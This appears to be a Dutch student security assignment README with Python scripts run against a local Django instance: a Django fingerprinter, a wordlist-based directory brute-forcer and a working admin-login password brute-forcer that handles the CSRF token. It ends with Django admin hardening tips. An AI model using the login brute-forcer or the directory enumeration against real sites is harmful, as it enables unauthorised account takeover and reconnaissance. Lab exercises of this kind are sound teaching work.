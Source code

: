 # Django

Voor deze opdracht heb ik 1 ste variant gekozen.

## Scenario 1
Deze code geeft of het django toepassing is. Het is een simpele code die zoekt bij admin login form of het heeft csrfmiddlewaretoken dat word door Django gebruikt. En het zegd of het een Django toepassing is of niet.

```python
import requests

class Testing:
    def __init__(self,url,word):
        self.url=url
        self.word=word
        self.response = requests.get(self.url)
        self.tekst=self.response.text
        self.check()
        """def check(self): zogt voor de test of het woord (csrfmiddlewaretoken)\
        in de HTML structuur staat. En print resultaat
        Parameters
        ----------
        self : object
        Geeft parameters van klasse door
        Returns
        -------
        text : str
        In vorm van tekst
        """

    def check(self):
        if self.word in self.tekst:
            print("It is Django!")
        else:
            print ("not Django")

if __name__ == '__main__':
    URL='http://localhost:8000/admin/login/?next=/admin/'
    WORD="csrfmiddlewaretoken"
    test=Testing(URL,WORD)
```

## Scenario 1 deel2
Voor deze opdracht moeten we django folders in kaart zetten. Ik heb dat via url te bruteforsen. En filter op status code 200. Dat betekend dat hij heeft gevonden. En dan print hij de url. Dat werkt momenteel met directory maar nog niet met subdirectory.
```python
import time
import requests

class FileSystem:
    def __init__(self,url,file):
        self.url=url
        self.file=file
    """def checkfilesystem(self,file,URL):
         Parameters
          ----------
          self : object
          Geeft parameters van klasse door
          url : str
            URL van de website
          file : str
            Wordlist
         Returns
          -------
          text : str
          In vorm van tekst
        """
    def checkfilesystem(self):
        for line in self.file:
            time.sleep(2)
            fullurl=self.url+"/"+line
            fullurl=fullurl.rstrip()+"/"
            response = requests.get(fullurl)
            if response.status_code == 200:
                print(fullurl)

if __name__ == '__main__':
    URL='http://localhost:8000'
    file=open("all.txt","r")
    files=FileSystem(URL,file)
    files.checkfilesystem()
```
## Scenario 2
Voor deze opdracht we moeten bruteforsen.

```python
import sys
import requests
from bs4 import BeautifulSoup


class BFLoginPanel:
    def __init__(self, domain: str, username: str, password: str):
        self.domain = domain
        self.username = username
        self.password = password
        self.cookies = {}
        self.session = requests.Session()
        self.url = domain + "/admin/login/?next=/admin"
        self.protocol_mode = "Local File Mode"


        print(self.protocol_mode + " (" + self.password + ")")
        self.headers = {
            'Connection': 'keep-alive',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'\
            '(KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
            'Referer': self.domain + '/admin/login/?next=/admin'
        }
        try:
            self.file = open(password, "r")
            self.wordlist = list(set([(word.strip()) for word in self.file.readlines()]))
            self.file.close()
        except Exception as exception:
            print("[-] Error:\n", exception)
            sys.exit()
        self.login_page = self.session.get(self.url)
        self.bruteforce()

    def bruteforce(self):
        count = 0
        for self.password in self.wordlist:
            for key, value in self.session.cookies.items():
                self.cookies[key] = value
            self.soup = BeautifulSoup(self.login_page.text, 'html.parser')
            self.csrf_input = self.soup.find('input', {'name': 'csrfmiddlewaretoken'})['value']

            url = self.domain + "/admin/login/?next=/admin"
            self.login_page = self.session.post(url, data={'csrfmiddlewaretoken': self.csrf_input,
            'username': self.username,
            'password': self.password}, cookies=self.cookies, headers=self.headers)

            if "CSRF" in self.login_page.text:
                print("[+] Error:\nCSRF token missing or incorrect.")
                sys.exit()
            if "Please " not in self.login_page.text:
                print("[+] Found! " + self.username + " - " + self.password +
                " - "+ str(self.login_page.status_code)+"\n\n")
                sys.exit()
            else:
                count += 1
                print("(" + str(count) + ") Attempt: " + self.username + " - "
                + self.password + " - "+ str(self.login_page.status_code))


if __name__ == '__main__':
    try:
        DOMAIN = "http://localhost:8000"
        USERNAME = "test"
        PASSWORD = sys.argv[1]
        BFLoginPanel(DOMAIN,USERNAME,PASSWORD)
    except IndexError:
        print(f"Command Line: python {sys.argv[0]} domain username wordlist_file")
```

## Django community
### Er zijn paar tips van django community die maken django framework meer securder.
1. Use SSL
2. Change the URL
3. Use 'django-admin-honeypot' ==> library 'django-admin-honeypot' moet geinstaleerd worden.
4. Require stronger passwords ==> password validator python-zxcvbn library.
5. Use 2FA ==> library django-two-factor-auth.
6. Use latest version of Django
7. Never run 'DEBUG' in production
8. Remember your environment ==> django-admin-env-notice library
9. Check for errors ==>Find security errors using "python manage.py check --deploy" command.
10. Get a checkup ==> Security tests.

## Bronnen
* [Git](https://github.com/MorDavid/Brute-Force-Django-Admin-Panel)
* [Django](https://opensource.com/article/18/1/10-tips-making-django-admin-more-secure)
